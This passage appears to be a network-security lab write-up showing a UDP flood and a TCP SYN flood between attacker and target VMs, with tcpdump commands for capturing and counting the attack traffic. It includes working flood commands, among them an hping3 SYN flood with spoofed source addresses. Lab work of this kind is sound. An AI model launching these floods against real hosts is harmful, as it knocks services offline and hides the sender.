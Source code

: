     ls -all udpflood.sh

* checks access permissions, since it is copied, it was already executable.

=> 

    sudo chmod +s udpflood.sh 

=> 

    ./udpflood.sh

Target VM:

=> 

    sudo tcpdump -n -i ens192 -w udpflood.pcap '(dst 133.228.86.3 and port 1234)' or '(src 133.228.86.3 and icmp[1]=3)' -vvv

* dst 133.228.86.3 and port 1234 says look for packets whose destination is 133.228.86.3 and port is 1234. 
* src 133.228.86.3 and icmp[1]=3 says look for packets whose source is 133.228.86.3 and icmp[1]=3 says that the destination is unreachable. 
* The above tcpdump has or in between the dst and src, so it is looking for incoming udp packets and outgoing icmp packets.

=> 

    sudo tcpdump -r udpflood.pcap | grep 'UDP'| wc -l

* grep UDP checks for UDP incoming packets

=> 
    
    sudo tcpdump -r udpflood.pcap | grep '1234 unreachable'| wc -l

* grep '1234 unreachable' checks for the outgoing icmp packets.

### D. TCP Syn Flooding attack:

Attacker VM:

=> 

    cp udpflood.sh tcpsyn.sh => nano tcpsyn.sh

* sudo hping3 -q -S -c 10 133.228.86.3 -p 1234 -a 133.228.72.1 (10 times with different machines)

* -S sets the SYN flag of the TCP protocol.
* The above command sends the packets from the 10 hosts as spoofed source to 133.228.86.3 (target machine) on port number 1234.

=> 

    ls -all tcpsyn.sh 

=> 
    
    sudo chmod +s tcpsyn.sh 
    
=> 
    
    ./tcpsyn.sh
